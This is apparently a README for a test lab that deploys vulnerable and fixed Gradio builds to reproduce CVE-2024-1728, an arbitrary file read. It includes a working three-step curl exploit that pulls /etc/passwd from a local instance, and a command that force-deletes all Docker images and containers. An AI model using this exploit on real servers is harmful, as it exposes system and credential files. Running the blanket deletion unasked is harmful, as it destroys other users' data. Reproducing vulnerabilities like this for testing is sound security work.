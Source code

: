 # Gradio CVE-2024-1728

This directory contains the deployment config for Gradio instances vulnerable and fixed to CVE-2024-1728. Gradio versions below 4.19.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following three curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```
# Send a file upload request
curl -X POST -H 'Content-Type: application/json' -d '{"data":[[{"path":"/etc/passwd","url":"http://127.0.0.1:7860/file=/help","orig_name":"CHANGELOG.md","size":3549,"mime_type":"text/markdown"}]],"event_data":null,"fn_index":0,"trigger_id":2,"session_hash":"hu6na4f3d08"}' 'http://localhost:8000/queue/join?'

# See the queued operations (Get PATH value from the JSON in the response whose msg key is process_completed, example: /tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd)
curl 'http://localhost:8000/queue/data?session_hash=hu6na4f3d08'

# Read the file content (example: http://localhost:8000/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd):
curl 'http://localhost:8000/file=PATH'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```
docker build -t gradio:fixed -f fixed.Dockerfile .
docker run --name gradio-fixed -p 8000:8000 -d gradio:fixed
```

The deployed service listens on `localhost:8000` after the docker completes its job.

## Vulnerable version
```
docker build -t gradio:vuln -f vulnerable.Dockerfile .
docker run --name gradio-vuln -p 8000:8000 -d gradio:vuln
```

The deployed service listens on `localhost:8000` after the docker completes its job.
